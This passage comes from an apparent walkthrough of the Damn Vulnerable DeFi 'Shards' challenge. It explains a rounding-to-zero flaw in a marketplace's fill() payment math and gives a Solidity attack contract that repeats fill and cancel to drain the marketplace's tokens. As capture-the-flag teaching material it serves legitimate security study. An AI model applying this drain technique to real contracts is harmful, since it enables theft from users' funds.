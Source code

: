 Run `forge test --mp test/abi-smuggling/ABISmuggling.t.sol --isolate` to validate test

---

## 16.SHARDS

**Obejctive**

_from `_isSolved()` in test_

1. _Balance of staking contract didn't change_
2. _Marketplace has less tokens_
3. _All recovered funds sent to recovery account_
4. _Player must have executed a single transaction_

**Attack Analysis**

- The vulnerability lies in the precision loss during payment calculation in `fill()`, specifically in `want.mulDivDown(_toDVT(offer.price, _currentRate), offer.totalShards)`
- The calculation involves two nested divisions that can be exploited:
  1. First in `_toDVT: offer.price * _currentRate / 1e6`
  2. Then in the outer calculation: `want * (result from step 1) / offer.totalShards`
- With initial values of `offer.price` = 100_000, `_currentRate` = 1e6, and `offer.totalShards` = 100_000, any `want` value below 133 results in a payment of 0 DVT due to precision loss
- An attacker can it exploited by:

  1. Making multiple small purchases (want = 100) that cost 0 DVT due to the precision loss
  2. Using `cancel()` to return these free shards and receive DVT tokens back
  3. Repeating this process to drain the marketplace's DVT tokens

**POC**

See [test/shards/Shards.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4-walkthrough/blob/master/test/shards/Shards.t.sol)

```solidity
function test_shards() public checkSolvedByPlayer {
    new AttackMarketPlace(marketplace, token, recovery);
}

contract AttackMarketPlace {
    constructor(ShardsNFTMarketplace _marketplace, DamnValuableToken _token, address _recovery) {
        uint256 wantShards = 100;

        // 100 shard * 10_000
        for (uint256 i = 0; i < 10001; i++) {
            _marketplace.fill(1, wantShards);
            _marketplace.cancel(1, i);
        }

        _token.transfer(_recovery, _token.balanceOf(address(this)));
    }
}
```

Run `forge test --mp test/shards/Shards.t.sol --isolate` to validate test

---
